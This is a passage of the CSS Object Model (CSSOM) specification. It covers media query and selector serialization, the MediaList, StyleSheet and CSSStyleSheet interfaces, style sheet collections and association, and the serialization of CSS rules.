6. Return *s*.

> **Example:** Here are some examples of input (first column) and output (second column):
>
> | Input | Output |
> | --- | --- |
> | not screen and (min-WIDTH:5px) AND (max-width:40px) | not screen and (min-width: 5px) and (max-width: 40px) |
> | all and (color) and (color) | (color) and (color) |

##### 4.2.1. Serializing Media Feature Values {#cssom-1:serializing-media-feature-values}

> **Issue:** This should probably be done in terms of mapping it to serializing CSS values as media features are defined in terms of CSS values after all.

To **serialize a media feature value** named *v* locate *v* in the first column of the table below and use the serialization format described in the second column:

| Media Feature | Serialization |
| --- | --- |
| `width` | ... |
| `height` | ... |
| `device-width` | ... |
| `device-height` | ... |
| `orientation` | If the value is `portrait`: "`portrait`". If the value is `landscape`: "`landscape`". |
| `aspect-ratio` | ... |
| `device-aspect-ratio` | ... |
| `color` | ... |
| `color-index` | ... |
| `monochrome` | ... |
| `resolution` | ... |
| `scan` | If the value is `progressive`: "`progressive`". If the value is `interlace`: "`interlace`". |
| `grid` | ... |

Other specifications can extend this table and vendor-prefixed media features can have custom serialization formats as well.

#### 4.3. Comparing Media Queries {#cssom-1:comparing-media-queries}

To **compare media queries** *m1* and *m2* means to serialize them both and return true if they are a case-sensitive match and false if they are not.

#### 4.4. The `MediaList` Interface {#cssom-1:the-medialist-interface}

An object that implements the `MediaList` interface has an associated **collection of media queries**.

```webidl
[Exposed=Window]
interface MediaList {
  stringifier attribute [LegacyNullToEmptyString] CSSOMString mediaText;
  readonly attribute unsigned long length;
  getter CSSOMString? item(unsigned long index);
  undefined appendMedium(CSSOMString medium);
  undefined deleteMedium(CSSOMString medium);
};
```

The object’s supported property indices are the numbers in the range zero to one less than the number of media queries in the collection of media queries represented by the collection. If there are no such media queries, then there are no supported property indices.

To **create a `MediaList` object** with a string *text*, run the following steps:

1. Create a new `MediaList` object.
2. Set its `mediaText` attribute to *text*.
3. Return the newly created `MediaList` object.

The **`mediaText`** attribute, on getting, must return a serialization of the collection of media queries. Setting the `mediaText` attribute must run these steps:

1. Empty the collection of media queries.
2. If the given value is the empty string, then return.
3. Append all the media queries as a result of parsing the given value to the collection of media queries.

The **`item(index)`** method must return a serialization of the media query in the collection of media queries given by *index*, or null, if *index* is greater than or equal to the number of media queries in the collection of media queries.

The **`length`** attribute must return the number of media queries in the collection of media queries.

The **`appendMedium(medium)`** method must run these steps:

1. Let *m* be the result of parsing the given value.
2. If *m* is null, then return.
3. If comparing *m* with any of the media queries in the collection of media queries returns true, then return.
4. Append *m* to the collection of media queries.

The **`deleteMedium(medium)`** method must run these steps:

1. Let *m* be the result of parsing the given value.
2. If *m* is null, then return.
3. Remove any media query from the collection of media queries for which comparing the media query with *m* returns true. If nothing was removed, then throw a `NotFoundError` exception.

### 5. Selectors {#cssom-1:selectors}

Selectors are defined in the Selectors specification. This section mainly defines how to serialize them.

#### 5.1. Parsing Selectors {#cssom-1:parsing-selectors}

To **parse a group of selectors** means to parse the value using the `selectors_group` production defined in the Selectors specification and return either a group of selectors if parsing did not fail or null if parsing did fail.

#### 5.2. Serializing Selectors {#cssom-1:serializing-selectors}

To **serialize a group of selectors** serialize each selector in the group of selectors and then serialize a comma-separated list of these serializations.

To **serialize a selector** let *s* be the empty string, run the steps below for each part of the chain of the selector, and finally return *s*:

1. If there is only one simple selector in the compound selectors which is a universal selector, append the result of serializing the universal selector to *s*.
2. Otherwise, for each simple selector in the compound selectors that is not a universal selector of which the namespace prefix maps to a namespace that is not the default namespace serialize the simple selector and append the result to *s*.
3. If this is not the last part of the chain of the selector append a single SPACE (U+0020), followed by the combinator "`>`", "`+`", "`~`", "`>>`", "`||`", as appropriate, followed by another single SPACE (U+0020) if the combinator was not whitespace, to *s*.
4. If this is the last part of the chain of the selector and there is a pseudo-element, append "`::`" followed by the name of the pseudo-element, to *s*.

To **serialize a simple selector** let *s* be the empty string, run the steps below, and finally return *s*:

**type selector universal selector**

: 1. If the namespace prefix maps to a namespace that is not the default namespace and is not the null namespace (not in a namespace) append the serialization of the namespace prefix as an identifier, followed by a "`|`" (U+007C) to *s*.
  2. If the namespace prefix maps to a namespace that is the null namespace (not in a namespace) append "`|`" (U+007C) to *s*.
  3. If this is a type selector append the serialization of the element name as an identifier to *s*.
  4. If this is a universal selector append "`*`" (U+002A) to *s*.

**attribute selector**

: 1. Append "`[`" (U+005B) to *s*.
  2. If the namespace prefix maps to a namespace that is not the null namespace (not in a namespace) append the serialization of the namespace prefix as an identifier, followed by a "`|`" (U+007C) to *s*.
  3. Append the serialization of the attribute name as an identifier to *s*.
  4. If there is an attribute value specified, append "`=`", "`~=`", "`|=`", "`^=`", "`$=`", or "`*=`" as appropriate (depending on the type of attribute selector), followed by the serialization of the attribute value as a string, to *s*.
  5. If the attribute selector has the case-sensitivity flag present, append "`i`" (U+0020 U+0069) to *s*.
  6. Append "`]`" (U+005D) to *s*.

**class selector**

: Append a "`.`" (U+002E), followed by the serialization of the class name as an identifier to *s*.

**ID selector**

: Append a "`#`" (U+0023), followed by the serialization of the ID as an identifier to *s*.

**pseudo-class**

: If the pseudo-class does not accept arguments append "`:`" (U+003A), followed by the name of the pseudo-class, to *s*.

  Otherwise, append "`:`" (U+003A), followed by the name of the pseudo-class, followed by "`(`" (U+0028), followed by the value of the pseudo-class argument(s) determined as per below, followed by "`)`" (U+0029), to *s*.

  **`:lang()`**

  : The serialization of a comma-separated list of each argument’s serialization as a string, preserving relative order.

  **`:nth-child()` `:nth-last-child()` `:nth-of-type()` `:nth-last-of-type()`**

  : The result of serializing the value using the rules to serialize an <a-n-plus-b> value.

  **`:not()`**

  : The result of serializing the value using the rules for serializing a group of selectors.

### 6. CSS {#cssom-1:css-object-model}

#### 6.1. CSS Style Sheets {#cssom-1:css-style-sheets}

A **CSS style sheet** is an abstract concept that represents a style sheet as defined by the CSS specification. In the CSSOM a CSS style sheet is represented as a `CSSStyleSheet` object.

****`CSSStyleSheet(options)`****

: When called, execute the steps to create a constructed CSSStyleSheet given *options* and return the result.

**To **create a constructed `CSSStyleSheet`****

: 1. Construct a new `CSSStyleSheet` object *sheet*.
  2. Set *sheet*’s location to the base URL of the associated Document for the current global object.
  3. Set *sheet*’s stylesheet base URL to the `baseURL` attribute value from *options*.
  4. Set *sheet*’s parent CSS style sheet to null.
  5. Set *sheet*’s owner node to null.
  6. Set *sheet*’s owner CSS rule to null.
  7. Set *sheet*’s title to the empty string.
  8. Unset *sheet*’s alternate flag.
  9. Set *sheet*’s origin-clean flag.
  10. Set *sheet*’s constructed flag.
  11. Set *sheet*’s Constructor document to the associated Document for the current global object.
  12. If the `media` attribute of *options* is a string, create a MediaList object from the string and assign it as *sheet*’s media. Otherwise, serialize a media query list from the attribute and then create a MediaList object from the resulting string and set it as *sheet*’s media.
  13. If the `disabled` attribute of *options* is true, set *sheet*’s disabled flag.
  14. Return *sheet*.

A CSS style sheet has a number of associated state items:

****type****

: The literal string "`text/css`".

****location****

: Specified when created. The absolute-URL string of the first request of the CSS style sheet or null if the CSS style sheet was embedded. Does not change during the lifetime of the CSS style sheet.

****parent CSS style sheet****

: Specified when created. The CSS style sheet that is the parent of the CSS style sheet or null if there is no associated parent.

****owner node****

: Specified when created. The DOM node associated with the CSS style sheet or null if there is no associated DOM node.

****owner CSS rule****

: Specified when created. The CSS rule in the parent CSS style sheet that caused the inclusion of the CSS style sheet or null if there is no associated rule.

****media****

: Specified when created. The `MediaList` object associated with the CSS style sheet.

  If this property is specified to a string, the media must be set to the return value of invoking create a `MediaList` object steps for that string.

  If this property is specified to an attribute of the owner node, the media must be set to the return value of invoking create a `MediaList` object steps for the value of that attribute. Whenever the attribute is set, changed or removed, the media’s `mediaText` attribute must be set to the new value of the attribute, or to null if the attribute is absent.

  > **Note:** Changing the media’s `mediaText` attribute does not change the corresponding attribute on the owner node.

  > **Note:** The owner node of a CSS style sheet, if non-null, is the node whose associated CSS style sheet is the CSS style sheet in question, when the CSS style sheet is added.

****title****

: Specified when created. The title of the CSS style sheet, which can be the empty string.

  > **Example:** In the following, the title is non-empty for the first style sheet, but is empty for the second and third style sheets.
  >
  > ```
  > <style title="papaya whip">
  >   body { background: #ffefd5; }
  > </style>
  > ```
  >
  > ```
  > <style title="">
  >   body { background: orange; }
  > </style>
  > ```
  >
  > ```
  > <style>
  >   body { background: brown; }
  > </style>
  > ```

  If this property is specified to an attribute of the owner node, the title must be set to the value of that attribute. Whenever the attribute is set, changed or removed, the title must be set to the new value of the attribute, or to the empty string if the attribute is absent.

  > **Note:** HTML only [specifies](https://html.spec.whatwg.org/#the-style-element:concept-css-style-sheet-title) title to be an attribute of the owner node if the node is in in a document tree.

****alternate flag****

: Specified when created. Either set or unset. Unset by default.

  > **Example:** The following CSS style sheets have their alternate flag set:
  >
  > ```
  > <?xml-stylesheet alternate="yes" title="x" href="data:text/css,…"?>
  > ```
  >
  > ```
  > <link rel="alternate stylesheet" title="x" href="data:text/css,…">
  > ```

****disabled flag****

: Either set or unset. Unset by default.

  > **Note:** Even when unset it does not necessarily mean that the CSS style sheet is actually used for rendering.

****CSS rules****

: The CSS rules associated with the CSS style sheet.

****origin-clean flag****

: Specified when created. Either set or unset. If it is set, the API allows reading and modifying of the CSS rules.

****constructed flag****

: Specified when created. Either set or unset. Unset by default. Signifies whether this stylesheet was created by invoking the IDL-defined constructor.

****disallow modification flag****

: Either set or unset. Unset by default. If set, modification of the stylesheet’s rules is not allowed.

****constructor document****

: Specified when created. The `Document` a constructed stylesheet is associated with. Null by default. Only non-null for stylesheets that have constructed flag set.

****stylesheet base URL****

: The base URL to use when resolving relative URLs in the stylesheet. Null by default. Only non-null for stylesheets that have constructed flag set.

##### 6.1.1. The `StyleSheet` Interface {#cssom-1:the-stylesheet-interface}

The `StyleSheet` interface represents an abstract, base style sheet.

```webidl
[Exposed=Window]
interface StyleSheet {
  readonly attribute CSSOMString type;
  readonly attribute USVString? href;
  readonly attribute (Element or ProcessingInstruction)? ownerNode;
  readonly attribute CSSStyleSheet? parentStyleSheet;
  readonly attribute DOMString? title;
  [SameObject, PutForwards=mediaText] readonly attribute MediaList media;
  attribute boolean disabled;
};
```

The **`type`** attribute must return the type.

The **`href`** attribute must return the location.

The **`ownerNode`** attribute must return the owner node.

The **`parentStyleSheet`** attribute must return the parent CSS style sheet.

The **`title`** attribute must return the title or null if title is the empty string.

The **`media`** attribute must return the media.

The **`disabled`** attribute, on getting, must return true if the disabled flag is set, or false otherwise. On setting, the `disabled` attribute must set the disabled flag if the new value is true, or unset the disabled flag otherwise.

##### 6.1.2. The `CSSStyleSheet` Interface {#cssom-1:the-cssstylesheet-interface}

The `CSSStyleSheet` interface represents a CSS style sheet.

```webidl
[Exposed=Window]
interface CSSStyleSheet : StyleSheet {
  constructor(optional CSSStyleSheetInit options = {});

  readonly attribute CSSRule? ownerRule;
  [SameObject] readonly attribute CSSRuleList cssRules;
  unsigned long insertRule(CSSOMString rule, optional unsigned long index = 0);
  undefined deleteRule(unsigned long index);

  Promise<CSSStyleSheet> replace(USVString text);
  undefined replaceSync(USVString text);
};

dictionary CSSStyleSheetInit {
  DOMString? baseURL = null;
  (MediaList or DOMString) media = "";
  boolean disabled = false;
};
```

The **`ownerRule`** attribute must return the owner CSS rule. If a value other than null is ever returned, then that same value must always be returned on each get access.

The **`cssRules`** attribute must follow these steps:

1. If the origin-clean flag is unset, throw a `SecurityError` exception.
2. Return a read-only, live `CSSRuleList` object representing the CSS rules.

   > **Note:** Even though the returned `CSSRuleList` object is read-only (from the perspective of client-authored script), it can nevertheless change over time due to its liveness status. For example, invoking the `insertRule()` or `deleteRule()` methods can result in mutations reflected in the returned object.

The **`insertRule(rule, index)`** method must run the following steps:

1. If the origin-clean flag is unset, throw a `SecurityError` exception.
2. If the disallow modification flag is set, throw a `NotAllowedError` `DOMException`.
3. Let *parsed rule* be the return value of invoking parse a rule with *rule*.
4. If *parsed rule* is a syntax error, throw a `SyntaxError` `DOMException`.
5. If *parsed rule* is an `@import` rule, and the constructed flag is set, throw a `SyntaxError` `DOMException`.
6. Return the result of invoking insert a CSS rule *rule* in the CSS rules at *index*.

The **`deleteRule(index)`** method must run the following steps:

1. If the origin-clean flag is unset, throw a `SecurityError` exception.
2. If the disallow modification flag is set, throw a `NotAllowedError` `DOMException`.
3. Remove a CSS rule in the CSS rules at *index*.

The **`replace(text)`** method must run the following steps:

1. Let *promise* be a promise.
2. If the constructed flag is not set, or the disallow modification flag is set, reject *promise* with a `NotAllowedError` `DOMException` and return *promise*.
3. Set the disallow modification flag.
4. In parallel, do these steps:

  1. Let *rules* be the result of running parse a stylesheet’s contents from *text*.
  2. If *rules* contains one or more `@import` rules, remove those rules from *rules*.
  3. Set *sheet*’s CSS rules to *rules*.
  4. Unset *sheet*’s disallow modification flag.
  5. Resolve *promise* with *sheet*.
5. Return *promise*.

The **`replaceSync(text)`** method must run the steps to synchronously replace the rules of a CSSStyleSheet on this `CSSStyleSheet` given *text*.

To **synchronously replace the rules of a CSSStyleSheet** on *sheet* given *text*, run these steps:

1. If the constructed flag is not set, or the disallow modification flag is set, throw a `NotAllowedError` `DOMException`.
2. Let *rules* be the result of running parse a stylesheet’s contents from *text*.
3. If *rules* contains one or more `@import` rules, remove those rules from *rules*.
4. Set *sheet*’s CSS rules to *rules*.

###### 6.1.2.1. Deprecated CSSStyleSheet members {#cssom-1:legacy-css-style-sheet-members}

> **Note:** These members are required for compatibility with existing sites.

```webidl
partial interface CSSStyleSheet {
  [SameObject] readonly attribute CSSRuleList rules;
  long addRule(optional DOMString selector = "undefined", optional DOMString style = "undefined", optional unsigned long index);
  undefined removeRule(optional unsigned long index = 0);
};
```

The **`rules`** attribute must follow the same steps as `cssRules`, and return the same object `cssRules` would return.

The **`removeRule(index)`** method must run the same steps as `deleteRule()`.

The **`addRule(selector, block, optionalIndex)`** method must run the following steps:

1. Let *rule* be an empty string.
2. Append *selector* to *rule*.
3. Append `" { "` to *rule*.
4. If *block* is not empty, append *block*, followed by a space, to *rule*.
5. Append `"}"` to *rule*
6. Let *index* be *optionalIndex* if provided, or the number of CSS rules in the stylesheet otherwise.
7. Call `insertRule()`, with *rule* and *index* as arguments.
8. Return `-1`.

> **Advisement:** Authors should not use these members and should instead use and teach the standard `CSSStyleSheet` interface defined earlier, which is consistent with `CSSGroupingRule`.

#### 6.2. CSS Style Sheet Collections {#cssom-1:css-style-sheet-collections}

Below various new concepts are defined that are associated with each `DocumentOrShadowRoot` object.

Each `DocumentOrShadowRoot` has an associated list of zero or more CSS style sheets, named the **document or shadow root CSS style sheets**. This is an ordered list that contains:

1. Any CSS style sheets created from HTTP `Link` headers, in header order
2. Any CSS style sheets associated with the `DocumentOrShadowRoot`, in tree order

Each `DocumentOrShadowRoot` has an associated list of zero or more CSS style sheets, named the **final CSS style sheets**. This is an ordered list that contains:

1. The document or shadow root CSS style sheets.
2. The contents of `DocumentOrShadowRoot`’s `adoptedStyleSheets`' backing list, in array order.

To **create a CSS style sheet**, run these steps:

1. Create a new CSS style sheet object and set its properties as specified.
2. Then run the add a CSS style sheet steps for the newly created CSS style sheet.

   If the origin-clean flag is unset, this can expose information from the user’s intranet.

To **add a CSS style sheet**, run these steps:

1. Add the CSS style sheet to the list of document or shadow root CSS style sheets at the appropriate location.
2. If the CSS style sheet’s owner node contributes a script-blocking style sheet, then user agents must append the owner node to its node document’s script-blocking style sheet set.

   > **Note:** The remainder of these steps deal with the disabled flag.
3. If the disabled flag is set, then return.
4. If the title is not the empty string, the alternate flag is unset, and preferred CSS style sheet set name is the empty string change the preferred CSS style sheet set name to the title.
5. If any of the following is true, then unset the disabled flag and return:

  - The title is the empty string.
  - The last CSS style sheet set name is null and the title is a case-sensitive match for the preferred CSS style sheet set name.
  - The title is a case-sensitive match for the last CSS style sheet set name.
6. Set the disabled flag.

To **remove a CSS style sheet**, run these steps:

1. Remove the CSS style sheet from the list of document or shadow root CSS style sheets.
2. Set the CSS style sheet’s parent CSS style sheet, owner node and owner CSS rule to null.

A **persistent CSS style sheet** is a CSS style sheet from the document or shadow root CSS style sheets whose title is the empty string and whose alternate flag is unset.

A **CSS style sheet set** is an ordered collection of one or more CSS style sheets from the document or shadow root CSS style sheets which have an identical title that is not the empty string.

A **CSS style sheet set name** is the title the CSS style sheet set has in common.

An **enabled CSS style sheet set** is a CSS style sheet set of which each CSS style sheet has its disabled flag unset.

To **enable a CSS style sheet set** with name *name*, run these steps:

1. If *name* is the empty string, set the disabled flag for each CSS style sheet that is in a CSS style sheet set and return.
2. Unset the disabled flag for each CSS style sheet in a CSS style sheet set whose CSS style sheet set name is a case-sensitive match for *name* and set it for all other CSS style sheets in a CSS style sheet set.

To **select a CSS style sheet set** with name *name*, run these steps:

1. enable a CSS style sheet set with name *name*.
2. Set last CSS style sheet set name to *name*.

A **last CSS style sheet set name** is a concept to determine what CSS style sheet set was last selected. Initially its value is null.

A **preferred CSS style sheet set name** is a concept to determine which CSS style sheets need to have their disabled flag unset. Initially its value is the empty string.

To **change the preferred CSS style sheet set name** with name *name*, run these steps:

1. Let *current* be the preferred CSS style sheet set name.
2. Set preferred CSS style sheet set name to *name*.
3. If *name* is not a case-sensitive match for *current* and last CSS style sheet set name is null enable a CSS style sheet set with name *name*.

##### 6.2.1. The HTTP Default-Style Header {#cssom-1:the-http-default-style-header}

The HTTP Default-Style header can be used to set the preferred CSS style sheet set name influencing which CSS style sheet set is (initially) the enabled CSS style sheet set.

For each HTTP Default-Style header, in header order, the user agent must change the preferred CSS style sheet set name with name being the value of the header.

##### 6.2.2. The `StyleSheetList` Interface {#cssom-1:the-stylesheetlist-interface}

The `StyleSheetList` interface represents an ordered collection of CSS style sheets.

```webidl
[Exposed=Window]
interface StyleSheetList {
  getter CSSStyleSheet? item(unsigned long index);
  readonly attribute unsigned long length;
};
```

The object’s supported property indices are the numbers in the range zero to one less than the number of CSS style sheets represented by the collection. If there are no such CSS style sheets, then there are no supported property indices.

The **`item(index)`** method must return the *index*th CSS style sheet in the collection. If there is no *index*th object in the collection, then the method must return null.

The **`length`** attribute must return the number of CSS style sheets represented by the collection.

##### 6.2.3. Extensions to the `DocumentOrShadowRoot` Interface Mixin {#cssom-1:extensions-to-the-document-or-shadow-root-interface}

```webidl
partial interface mixin DocumentOrShadowRoot {
  [SameObject] readonly attribute StyleSheetList styleSheets;
  attribute ObservableArray<CSSStyleSheet> adoptedStyleSheets;
};
```

The **`styleSheets`** attribute must return a `StyleSheetList` collection representing the document or shadow root CSS style sheets.

The set an indexed value algorithm for **`adoptedStyleSheets`**, given *value* and *index*, is the following:

1. If *value*’s constructed flag is not set, or its constructor document is not equal to this `DocumentOrShadowRoot`’s node document, throw a "`NotAllowedError`" `DOMException`.

#### 6.3. Style Sheet Association {#cssom-1:style-sheet-association}

This section defines the interface an owner node of a CSS style sheet has to implement and defines the requirements for xml-stylesheet processing instructions and HTTP `Link` headers when the link relation type is an ASCII case-insensitive match for "`stylesheet`".

##### 6.3.1. Fetching CSS style sheets {#cssom-1:fetching-css-style-sheets}

To **fetch a CSS style sheet** with parsed URL *parsed URL*, referrer *referrer*, document *document*, optionally a set of parameters *parameters* (used as input to creating a request), and an algorithm for handling the response result *processTheResponse* that takes a response, follow these steps:

1. Let *origin* be *document*’s origin.
2. Let *request* be a new request, with the url *parsed URL*, origin *origin*, referrer *referrer*, and if specified the set of parameters *parameters*.
3. Fetch *request*, with *processResponseEndOfBody*, given *response*, being the following steps:

  1. If *response* is a network error, return.
  2. If *document* is in quirks mode, *response* is CORS-same-origin and the Content-Type metadata of *response* is not a supported styling language change the Content-Type metadata of *response* to `text/css`.
  3. If *response* is not in a supported styling language, return.
  4. Execute *processTheResponse* given *response*

##### 6.3.2. The `LinkStyle` Interface {#cssom-1:the-linkstyle-interface}

The **associated CSS style sheet** of a node is the CSS style sheet in the list of document or shadow root CSS style sheets of which the owner node is said node. This node must also implement the `LinkStyle` interface.

```webidl
interface mixin LinkStyle {
  readonly attribute CSSStyleSheet? sheet;
};
```

The **`sheet`** attribute must return the associated CSS style sheet for the node or null if there is no associated CSS style sheet.

> **Example:** In the following fragment, the first `style` element has a `sheet` attribute that returns a `StyleSheet` object representing the style sheet, but for the second `style` element, the `sheet` attribute returns null, assuming the user agent supports CSS (`text/css`), but does not support the (hypothetical) ExampleSheets (`text/example-sheets`).
>
> ```
> <style type="text/css">
>   body { background:lime }
> </style>
> ```
>
> ```
> <style type="text/example-sheets">
>   $(body).background := lime
> </style>
> ```

> **Note:** Whether or not the node refers to a style sheet is defined by the specification that defines the semantics of said node.

##### 6.3.3. Requirements on specifications {#cssom-1:requirements-on-specifications}

Specifications introducing new ways of associating style sheets through the DOM should define which nodes implement the `LinkStyle` interface. When doing so, they must also define when a CSS style sheet is created.

##### 6.3.4. Requirements on user agents Implementing the xml-stylesheet processing instruction {#cssom-1:requirements-on-user-agents-implementing-the-xml-stylesheet-processing-instruction}

```webidl
ProcessingInstruction includes LinkStyle;
```

The **prolog** refers to nodes that are children of the `Document` and are not following the `Element` child of the `Document`, if any.

When a `ProcessingInstruction` node *node* becomes part of the prolog, is no longer part of the prolog, or has its data changed, these steps must be run:

1. If an instance of this algorithm is currently running for *node*, abort that instance, and stop the associated fetching if applicable.
2. If *node* has an associated CSS style sheet, remove it.
3. If *node* is not an xml-stylesheet processing instruction, then return.
4. If *node* does not have an `href` pseudo-attribute, then return.
5. Let *title* be the value of the `title` pseudo-attribute or the empty string if the `title` pseudo-attribute is not specified.
6. If there is an `alternate` pseudo-attribute whose value is a case-sensitive match for "`yes`" and *title* is the empty string, then return.
7. If there is a `type` pseudo-attribute whose value is not a supported styling language the user agent may return.
8. Let *input URL* be the value specified by the `href` pseudo-attribute.
9. Let *document* be *node*’s node document
10. Let *base URL* be *document*’s document base URL.
11. Let *referrer* be *document*’s address.
12. Let *parsed URL* be the return value of invoking the URL parser with the string *input URL* and the base URL *base URL*.
13. If *parsed URL* is failure, then return.
14. Fetch a CSS style sheet with parsed URL *parsed URL*, referrer *referrer*, document *document*, and *processTheResponse* given *response* being the following steps:

  1. Create a CSS style sheet with the following properties:

     **location**

     : The result of invoking the URL serializer with *parsed URL*.

     **parent CSS style sheet**

     : null.

     **owner node**

     : *node*.

     **owner CSS rule**

     : null.

     **media**

     : The value of the `media` pseudo-attribute if any, or the empty string otherwise.

     **title**

     : *title*.

     **alternate flag**

     : Set if the `alternate` pseudo-attribute value is a case-sensitive match for "`yes`", or unset otherwise.

     **origin-clean flag**

     : Set if *response* is CORS-same-origin, or unset otherwise.

     The CSS environment encoding is the result of running the following steps:

    1. If the element has a `charset` pseudo-attribute, get an encoding from that pseudo-attribute’s value. If that succeeds, return the resulting encoding and abort these steps.
    2. Otherwise, return the document’s character encoding. [DOM]

##### 6.3.5. Requirements on user agents Implementing the HTTP Link Header {#cssom-1:requirements-on-user-agents-implementing-the-http-link-header}

For each HTTP `Link` header of which one of the link relation types is an ASCII case-insensitive match for "`stylesheet`" these steps must be run:

1. Let *title* be the value of the first of all the `title` parameters. If there are no such parameters it is the empty string.
2. If one of the (other) link relation types is an ASCII case-insensitive match for "`alternate`" and *title* is the empty string, then return.
3. Let *input URL* be the value specified.

   > **Issue:** Be more specific
4. Let *base URL* be the document’s document base URL.

   > **Issue:** Is there a document at this point?
5. Let *referrer* be the document’s address.
6. Let *parsed URL* be the return value of invoking the URL parser with the string *input URL* and the base URL *base URL*.
7. If *parsed URL* is failure, then return.
8. Fetch a CSS style sheet with parsed URL *parsed URL*, referrer *referrer*, document being the document, and *processTheResponse*, given *response*, being the following steps:

   > **Issue:** What if the HTML parser hasn’t decided on quirks/non-quirks yet?

  1. Create a CSS style sheet with the following properties:

     **location**

     : The result of invoking the URL serializer with *parsed URL*.

     **owner node**

     : null.

     **parent CSS style sheet**

     : null.

     **owner CSS rule**

     : null.

     **media**

     : The value of the first `media` parameter.

     **title**

     : *title*.

     **alternate flag**

     : Set if one of the specified link relation type for this HTTP `Link` header is an ASCII case-insensitive match for "`alternate`", or false otherwise.

     **origin-clean flag**

     : Set if *response* is CORS-same-origin, or unset otherwise.

A style sheet referenced by a HTTP `Link` header using the rules in this section is said to be a style sheet that is blocking scripts if the style sheet was enabled when created, and the user agent hasn’t given up on that particular style sheet yet. A user agent may give up on such a style sheet at any time.

#### 6.4. CSS Rules {#cssom-1:css-rules}

A **CSS rule** is an abstract concept that denotes a rule as defined by the CSS specification. A CSS rule is represented as an object that implements a subclass of the `CSSRule` interface, and which has the following associated state items:

****type****

: A non-negative integer associated with a particular type of rule. This item is initialized when a rule is created and cannot change.

****text****

: A text representation of the rule suitable for direct use in a style sheet. This item is initialized when a rule is created and can be changed.

****parent CSS rule****

: A reference to an enclosing CSS rule or null. If the rule has an enclosing rule when it is created, then this item is initialized to the enclosing rule; otherwise it is null. It can be changed to null.

****parent CSS style sheet****

: A reference to a parent CSS style sheet or null. This item is initialized to reference an associated style sheet when the rule is created. It can be changed to null.

****child CSS rules****

: A list of child CSS rules. The list can be mutated.

In addition to the above state, each CSS rule may be associated with other state in accordance with its type.

To **parse a CSS rule** from a string *string*, run the following steps:

1. Let *rule* be the return value of invoking parse a rule with *string*.
2. If *rule* is a syntax error, return *rule*.
3. Let *parsed rule* be the result of parsing *rule* according to the appropriate CSS specifications, dropping parts that are said to be ignored. If the whole *rule* is dropped, return a syntax error.
4. Return *parsed rule*.

To **serialize a CSS rule**, perform one of the following in accordance with the CSS rule’s type:

**`CSSStyleRule`**

: Return the result of the following steps:

  1. Let *s* initially be the result of performing serialize a group of selectors on the rule’s associated selectors, followed by the string "`{`", i.e., a single SPACE (U+0020), followed by LEFT CURLY BRACKET (U+007B).
  2. Let *decls* be the result of performing serialize a CSS declaration block on the rule’s associated declarations, or null if there are no such declarations.
  3. Let *rules* be the result of performing serialize a CSS rule on each rule in the rule’s `cssRules` list, or null if there are no such rules.
  4. If *decls* and *rules* are both null, append " }" to *s* (i.e. a single SPACE (U+0020) followed by RIGHT CURLY BRACKET (U+007D)) and return *s*.
  5. If *rules* is null:

    1. Append a single SPACE (U+0020) to *s*
    2. Append *decls* to *s*
    3. Append " }" to *s* (i.e. a single SPACE (U+0020) followed by RIGHT CURLY BRACKET (U+007D)).
    4. Return *s*.
  6. Otherwise:

    1. If *decls* is not null, prepend it to *rules*.
    2. For each *rule* in *rules*:

      - If *rule* is the empty string, do nothing.
      - Otherwise:

        1. Append a newline followed by two spaces to *s*.
        2. Append *rule* to *s*.
    3. Append a newline followed by RIGHT CURLY BRACKET (U+007D) to *s*.
    4. Return *s*.

**`CSSImportRule`**

: The result of concatenating the following:

  1. The string "`@import`" followed by a single SPACE (U+0020).
  2. The result of performing serialize a URL on the rule’s location.
  3. If the rule’s associated media list is not empty, a single SPACE (U+0020) followed by the result of performing serialize a media query list on the media list.
  4. The string "`;`", i.e., SEMICOLON (U+003B).

  > **Example:** ```
  > @import url("import.css");
  > ```
  >
  > ```
  > @import url("print.css") print;
  > ```

**`CSSMediaRule`**

: The result of concatenating the following:

  1. The string "`@media`", followed by a single SPACE (U+0020).
  2. The result of performing serialize a media query list on rule’s media query list.
  3. A single SPACE (U+0020), followed by the string "{", i.e., LEFT CURLY BRACKET (U+007B), followed by a newline.
  4. The result of performing serialize a CSS rule on each rule in the rule’s `cssRules` list, filtering out empty strings, indenting each item with two spaces, all joined with newline.
  5. A newline, followed by the string "}", i.e., RIGHT CURLY BRACKET (U+007D)

**`CSSFontFaceRule`**

: The result of concatenating the following:

  1. The string "`@font-face {`".
  2. If the `font-family` descriptor is present:

    1. A single SPACE (U+0020), followed by the string "`font-family:`", followed by a single SPACE (U+0020).
    2. The result of performing serialize a string on the rule’s font family name.
    3. The string "`;`", i.e., SEMICOLON (U+003B).
  3. If the rule’s associated source list is not empty, follow these substeps:

    1. A single SPACE (U+0020), followed by the string "`src:`", followed by a single SPACE (U+0020).
    2. The result of invoking serialize a comma-separated list on performing serialize a URL or serialize a LOCAL for each source on the source list.
    3. The string "`;`", i.e., SEMICOLON (U+003B).
  4. If rule’s associated `unicode-range` descriptor is present, a single SPACE (U+0020), followed by the string "`unicode-range:`", followed by a single SPACE (U+0020), followed by the result of performing serialize a <'unicode-range'>, followed by the string "`;`", i.e., SEMICOLON (U+003B).
  5. If rule’s associated `font-variant` descriptor is present, a single SPACE (U+0020), followed by the string "`font-variant:`", followed by a single SPACE (U+0020), followed by the result of performing serialize a <'font-variant'>, followed by the string "`;`", i.e., SEMICOLON (U+003B).
  6. If rule’s associated `font-feature-settings` descriptor is present, a single SPACE (U+0020), followed by the string "`font-feature-settings:`", followed by a single SPACE (U+0020), followed by the result of performing serialize a <'font-feature-settings'>, followed by the string "`;`", i.e., SEMICOLON (U+003B).
  7. If rule’s associated `font-stretch` descriptor is present, a single SPACE (U+0020), followed by the string "`font-stretch:`", followed by a single SPACE (U+0020), followed by the result of performing serialize a <'font-stretch'>, followed by the string "`;`", i.e., SEMICOLON (U+003B).
  8. If rule’s associated `font-weight` descriptor is present, a single SPACE (U+0020), followed by the string "`font-weight:`", followed by a single SPACE (U+0020), followed by the result of performing serialize a <'font-weight'>, followed by the string "`;`", i.e., SEMICOLON (U+003B).
  9. If rule’s associated `font-style` descriptor is present, a single SPACE (U+0020), followed by the string "`font-style:`", followed by a single SPACE (U+0020), followed by the result of performing serialize a <'font-style'>, followed by the string "`;`", i.e., SEMICOLON (U+003B).
  10. A single SPACE (U+0020), followed by the string "}", i.e., RIGHT CURLY BRACKET (U+007D).

  > **Issue:** Need to define how the `CSSFontFaceRule` descriptors' values are serialized.

**`CSSPageRule`**

: > **Issue:** Need to define how `CSSPageRule` is serialized.

**`CSSNamespaceRule`**

